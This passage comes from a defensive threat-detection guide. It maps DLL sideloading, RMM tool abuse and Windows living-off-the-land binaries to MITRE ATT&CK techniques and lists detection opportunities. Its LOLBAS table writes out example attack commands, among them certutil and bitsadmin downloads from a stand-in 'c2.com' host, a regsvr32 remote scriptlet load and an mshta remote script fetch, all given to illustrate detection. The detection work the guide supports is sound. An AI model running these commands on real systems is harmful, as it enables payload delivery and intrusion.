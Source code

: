 ### Detection Opportunities

- Monitor for legitimate executables running from unusual paths
- Alert on DLL loads from writable directories (Temp, Downloads, User profiles)
- Track file creation timestamps (executable + DLL created simultaneously)
- Implement application whitelisting with path verification
- Monitor for executables loading unexpected DLLs

---

## 4. Covert Remote Access: RMM Tools

**MITRE ATT&CK:** [T1219 - Remote Access Software](https://attack.mitre.org/techniques/T1219/)

Remote Monitoring and Management (RMM) tools are leveraged as initial access vectors and for persistent, whitelisted command and control (C2).

| RMM Tool Name | Malicious Use Case / TTP | Key Forensic Artifact/Indicator |
|---------------|--------------------------|--------------------------------|
| **NetSupport Manager** | Lateral movement, persistence, initial access | `client32.exe` running from non-standard directories (e.g., Downloads, Roaming) or making suspicious connections |
| **ScreenConnect (ConnectWise)** | Unattended access, persistence, execution of discovery commands | `ScreenConnect.WindowsClient.exe` registering as a service; analysis of `user.config`/`system.config` for C2 mappings |
| **Atera** | Persistence and initial access vector (used by Initial Access Brokers) | Unauthorized client installation or persistence artifacts |
| **Remcos (RuRAT)** | Persistent remote access; often obfuscated/injected | Artifacts containing "remcos" in file paths, filenames, or registry keys |
| **SimpleHelp** | Unauthorized file upload/download and privilege escalation | Exploitation of known vulnerabilities for initial access |
| **AnyDesk** | Persistent remote access, data exfiltration | Unattended installations, connections to unusual external IPs |
| **TeamViewer** | Lateral movement, persistent access | Unattended access enabled, unauthorized installations |

### Detection Opportunities

- Maintain inventory of authorized RMM tools
- Monitor for unexpected RMM tool installations
- Alert on RMM traffic to unusual destinations
- Track service installations of RMM agents
- Monitor configuration files for unauthorized modifications

---

## 5. Living Off The Land Binaries (LOLBAS)

**MITRE ATT&CK:** [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/), [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/), [T1218 - System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/)

Built-in Windows utilities are weaponized for stealthy file transfer, code execution, and evasion. Detection must focus on suspicious command-line flags and process lineage (LOLBAS Command Chaining).

| LOLBAS Binary | Primary Malicious Function | High-Fidelity Command Line Flag/Example | Detection Indicator |
|---------------|----------------------------|----------------------------------------|---------------------|
| `certutil.exe` | Download/Ingress Tool Transfer, Encoding/Decoding | `-urlcache -f https://c2.com/file.exe file.exe` | Non-standard file creation, use of `-urlcache`, CryptoAPI/CertUtil User-Agent |
| `mshta.exe` | Remote Code Execution (HTA, JScript, VBScript) | `javascript:GetObject("script:URL")` to retrieve remote script | Mshta.exe initiating network connection or executing raw script content |
| `rundll32.exe` | DLL/COM Execution, Remote/ADS Loading | `rundll32.exe C:\Temp\mal.dll,EntryPoint` or use of `-sta {CLSID}` | Outbound network connection from rundll32.exe or suspicious flag use |
| `powershell.exe` | Script Execution, C2, Fileless operations | Highly obfuscated or base64 encoded command arguments | Suspicious script block logging, non-native child process creation |
| `regsvr32.exe` | COM scriptlet execution | `regsvr32.exe /s /u /i:http://url scrobj.dll` | Network connections from regsvr32.exe |
| `bitsadmin.exe` | File download | `bitsadmin /transfer job /download /priority high http://url file.exe` | BITS job creation with external URLs |
| `wmic.exe` | Remote code execution, lateral movement | `wmic process call create "cmd.exe"` | Suspicious process creation via WMI |
